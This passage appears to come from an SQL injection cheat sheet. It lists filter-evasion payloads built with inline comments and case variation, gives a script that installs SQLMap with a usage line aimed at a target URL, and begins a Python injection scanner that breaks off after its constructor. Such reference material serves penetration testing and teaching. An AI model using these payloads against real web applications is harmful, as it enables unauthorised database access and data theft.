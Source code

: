 #### 2. Inline Comments
```sql
-- Use inline comments
' UN/**/ION SEL/**/ECT 1,2,3-- 
' AND 1=1/**/AND/**/1=1-- 
```

### Case Variation

#### 1. Mixed Case
```sql
-- Use mixed case
' UnIoN SeLeCt 1,2,3-- 
' AnD 1=1-- 
```

#### 2. Case Insensitive
```sql
-- Use case insensitive functions
' union select 1,2,3-- 
' and 1=1-- 
```

## Tools & Scripts {#tools-scripts}

### Installation Scripts

#### SQLMap Installation
```bash
#!/bin/bash
# sqlmap-install.sh
echo "Installing SQLMap..."

# Install dependencies
sudo apt-get update
sudo apt-get install -y python3 python3-pip git

# Clone SQLMap
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap

# Install additional dependencies
pip3 install -r requirements.txt

# Create symlink
sudo ln -sf $(pwd)/sqlmap.py /usr/local/bin/sqlmap

echo "SQLMap installed successfully!"
echo "Usage: sqlmap -u 'http://target.com/page?id=1'"
```

#### Custom SQL Injection Scanner
```python
#!/usr/bin/env python3
# sql-scanner.py
import requests
import time
import urllib.parse
from concurrent.futures import ThreadPoolExecutor

class SQLScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
```